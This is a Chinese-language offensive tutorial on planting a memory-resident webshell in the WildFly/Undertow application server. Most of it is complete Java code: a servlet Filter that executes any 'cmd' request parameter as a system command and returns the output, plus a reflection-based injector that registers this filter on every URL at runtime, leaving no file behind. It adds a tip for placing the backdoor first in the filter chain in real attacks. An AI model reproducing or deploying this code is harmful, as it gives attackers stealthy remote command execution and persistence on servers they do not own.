


# Wildfly

> WildFly，原名JBoss AS或者JBoss，是一套应用程序服务器，属于开源的企业级Java中间件软件，用于实现基于SOA架构的web应用和服务。

### 内存马
#### ServletContext

##### 获取Context-基于getServletContext()

```
ServletContext servletContext = request.getServletContext();
```



#### Filter

##### 静态添加-基于web.xml

FilterShell.java

```java
package com.example.wildfly;

import javax.servlet.*;
import java.io.IOException;

public class FilterShell implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain filterChain) throws IOException, ServletException {
        try {
            String cmd;
            if ((cmd = req.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                resp.getOutputStream().write(stringBuilder.toString().getBytes());
                resp.getOutputStream().flush();
                resp.getOutputStream().close();
            }
            filterChain.doFilter(req, resp);
        }catch (Exception e){
            filterChain.doFilter(req, resp);
        }

    }

    @Override
    public void destroy() {

    }
}
```

web.xml

```java
<filter>
    <filter-name>FilterShell</filter-name>
    <filter-class>com.example.wildfly.FilterShell</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterShell</filter-name>
    <url-pattern>/index</url-pattern>
</filter-mapping>
```


Tested Version:	WildFly v18.0.0.Final


##### 动态添加-基于DeploymentInfo

参考

- https://www.tabnine.com/code/java/methods/io.undertow.servlet.api.DeploymentInfo/addFilter


拎出来，该反射的用反射实现就成

- 基于getServletContext()获取上下文Context

```java
ServletContext servletContext = request.getServletContext();
```

- 生成恶意Filter

```java
Filter evilFilter = new FilterShell();
```

- 构造FilterInfo

```java
FilterInfo filter = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
```

- 反射获取deploymentInfo，调用`public DeploymentInfo addFilter`添加filter

```java
Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
deploymentInfoF.setAccessible(true);
DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
deploymentInfo.addFilter(filter);
```

- 反射获取deployment，调用`public ManagedFilter addFilter`将filterInfo添加到filters中

```java
Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
deploymentF.setAccessible(true);
DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
deployment.getFilters().addFilter(filter);
```

- 调用`addFilterUrlMapping`添加映射即可

```java
deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
```

- 添加banner

```java
response.getWriter().write("inject success !!!");
```

最终测试代码整合如下

```java
package com.example.wildfly;

import io.undertow.servlet.api.DeploymentInfo;
import io.undertow.servlet.api.FilterInfo;
import io.undertow.servlet.core.DeploymentImpl;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * Tested version:
 *      WildFly 18.0.0.Final
 *      Wildfly 20.0.1.Final
 *      WildFly 24.0.1.Final
 *
 */
public class FilterInject extends HttpServlet {
    public static class FilterShell implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            ServletContext servletContext = request.getServletContext();
            Filter evilFilter = new FilterShell();
            FilterInfo filterInfo = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
            Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
            deploymentInfoF.setAccessible(true);
            DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
            deploymentInfo.addFilter(filterInfo);
            Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
            deploymentF.setAccessible(true);
            DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
            deployment.getFilters().addFilter(filterInfo);
            deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
            response.getWriter().write("inject success !!!");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果如图



注：实战场景也许有将evilFilter置首的需求，可使用

- io.undertow.servlet.api.DeploymentInfo#insertFilterUrlMapping
```
deploymentInfo.insertFilterUrlMapping(0,evilFilter.getClass().getName(),"/*",DispatcherType.REQUEST);
```
